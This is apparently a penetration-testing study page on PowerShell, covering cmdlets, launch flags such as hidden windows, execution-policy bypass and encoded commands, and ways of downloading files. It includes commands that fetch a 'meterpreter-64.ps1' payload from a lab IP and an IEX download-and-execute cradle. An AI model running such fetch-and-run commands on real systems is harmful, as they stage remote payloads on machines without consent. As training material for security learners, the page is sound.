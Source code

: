 # Powershell

In short, "PowerShell is a cross-platform task automation solution made up of a command-line shell, a scripting language, and a configuration management framework. PowerShell runs on Windows, Linux, and macOS." There is a comprehensive document [here](https://docs.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.2), on Microsoft website.

There is also a brief [Introduction to powershell](https://docs.microsoft.com/en-us/learn/modules/introduction-to-powershell/) course.

Microsoft has a free course on Introduction to Powershell [here](https://docs.microsoft.com/en-us/learn/modules/introduction-to-powershell/) on their website. Information on [about\_Powershell.exe](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about\_powershell\_exe?view=powershell-5.1\&viewFallbackFrom=powershell-7.2).

We can run powershell from the Start Menu by searching for it, through the command prompt by running `powershell.exe`, or through the run dialogbox(`windows key+r`) and running `powershell.exe`

## Commands

* `IEX` OR `Invoke Expression`
  * The `Invoke-Expression` cmdlet evaluates or runs a specified string as a command and returns the results of the expression or command. Without `Invoke-Expression`, a string submitted at the command line is returned (echoed) unchanged.

## Arguments

* `-NoP` OR `-NoProfile`
  * When you launch PowerShell with NoProfile parameter, it ensures to run script in default PowerShell environment and run without any Windows PowerShell profile. Does not load the Windows PowerShell profile.
  * powershell.exe -NoP
* `-NonI` OR `-NonInteractive`
  * Does not present an interactive prompt to the user.
* `-W Hidden` OR `-WindowStyle Hidden`
  * Sets the window style to Normal, Minimized, Maximized or Hidden.
* `-Exec Bypass` OR `-ExecutionPolicy Bypass`
  * Sets the default execution policy for the current session and saves it in the `$env:PSExecutionPolicyPreference` environment variable. This parameter does not change the Windows PowerShell execution policy that is set in the registry.
* `-Enc` OR `-EncodedCommand`
  * Accepts a base-64-encoded string version of a command. Use this parameter to submit commands to Windows PowerShell that require complex quotation marks or curly braces.

## Cmdlet

A cmdlet is a lightweight command that is used in the PowerShell environment. The PowerShell runtime invokes these cmdlets within the context of automation scripts that are provided at the command line. Cmdlets perform an action and typically return a Microsoft .NET object to the next command in the pipeline. A cmdlet is a single command that participates in the pipeline semantics of PowerShell. This includes binary (C#) cmdlets, advanced script functions, CDXML, and Workflows.

A cmdlet is simply a command through which you can perform an action. The two most helpful cmdlets that everyone should be aware of are:

* Get-Command
* Get-Help

Using the cmdlet ‘Get-Command’, you can find all the available cmdlets even if you do not know the exact cmdlet. For example, you want to restart a service from PowerShell, but you do not know the cmdlet. Although you can assume that it may contain the word ‘service’.

Common verbs:

* Get
* Start
* Stop&#x20;
* Read
* Write
* New
* Out

Full list of approved verbs can be found [here](https://docs.microsoft.com/en-us/powershell/scripting/developer/cmdlet/approved-verbs-for-windows-powershell-commands?view=powershell-7).

## Commands

* `Get-Help` shows information about a cmdlet_._ `Get-Help Command-Name`
* `Get-Command` - Gets all the cmdlets installed on the current Computer. This cmdlet allows for pattern matching such as `Get-Command Verb-*` or `Get-Command *-Noun`
* `The Pipe( | )` - Used to pass output from one cmdlet to another. Eg. `Verb-Noun | Get-Member`&#x20;
* `Invoke-Webrequest` - Makes a request to a webserver. Sends HTTP and HTTPS requests to a web page or web service. It parses the response and returns collections of links, images, and other significant HTML elements. More info can be found [here](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2).
  * Download a file: `Invoke-WebRequest -URI http://(IP):(PORT)/(FILE) -Outfile (FILE)`
  * `Invoke-WebRequest "URL/File" -OutFile "File"`
    * `Invoke-WebRequest "http://10.0.2.8/meterpreter-64.ps1" -Outfile "meterpreter.ps1"`
* `Invoke-Expression` - Evaluates or runs a specified string as a command and returns the results of the expression or command. Without `Invoke-Expression`, a string submitted at the command line is returned (echoed) unchanged.
* `(New-Object System.Net.WebClient)DownloadFile('URL/File', 'Output-File')`
  * `(New-Object System.Net.WebClient)DownloadFile('http://10.0.2.8/meterpreter-64.ps1', 'meterpreter.ps1')`
* `Get-Hotfix` - Enumerate already installed patches
  * `Get-Hotfix | Format-list | findstr InstalledOn`
  * `Get-Hotfix | Format-Table HotFixID`
* `Format-List` - Used to gather more information about objects
  * `dir | Format-List`
* `Out-File` - Used to save the output to a file for further use
  * `Get-Hotfix | Out-File Hotfixes.txt`
* `Start-Process` - Used to start a process, such as notepad.
* `Get-Process` - Lists all running processes. Can also be used with the `-name` parameter to filter for a specific process
* `(command) | Export-Csv` - Exports the Previously piped command into a .CSV file that may be easier to read.
* `Get-Content` - Shows the contents of a file. Similar to the `cat` command on linux.
* `Copy-Item` - Copies and item
* `Move-Item` - Moves and item
* `Get-FileHash` - Obtains file hash of specified file

## Arguments

* `-NoP` OR `-NoProfile`
  * When you launch PowerShell with NoProfile parameter, it ensures to run script in default PowerShell environment and run without any Windows PowerShell profile. Does not load the Windows PowerShell profile.
  * powershell.exe -NoP
* `-NonI` OR `-NonInteractive`
  * Does not present an interactive prompt to the user.
* `-W Hidden` OR `-WindowStyle Hidden`
  * Sets the window style to Normal, Minimized, Maximized or Hidden.
* `-Exec Bypass` OR `-ExecutionPolicy Bypass`
  * Sets the default execution policy for the current session and saves it in the `$env:PSExecutionPolicyPreference` environment variable. This parameter does not change the Windows PowerShell execution policy that is set in the registry.
* `-Enc` OR `-EncodedCommand`
  * Accepts a base-64-encoded string version of a command. Use this parameter to submit commands to Windows PowerShell that require complex quotation marks or curly braces.

## Download files

*   Invoke-WebRequest http://`(IP)`:(PORT)/(FILE) -Outfile (Outputfile)

    * Invoke-WebRequest -URI http://192.168.1.52:8000/test.txt -Outfile Downloaded.txt



![](<../.gitbook/assets/image (661).png>)

* "IEX (New-Object Net.WebClient).DownloadString('URL')"
  * IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.52:8000/test.txt')

## Additional resources

[TryHackMe Hacking With Powershell](https://tryhackme.com/room/powershell)

[TryHackme Powershell for Pentesters](https://tryhackme.com/room/powershellforpentesters)

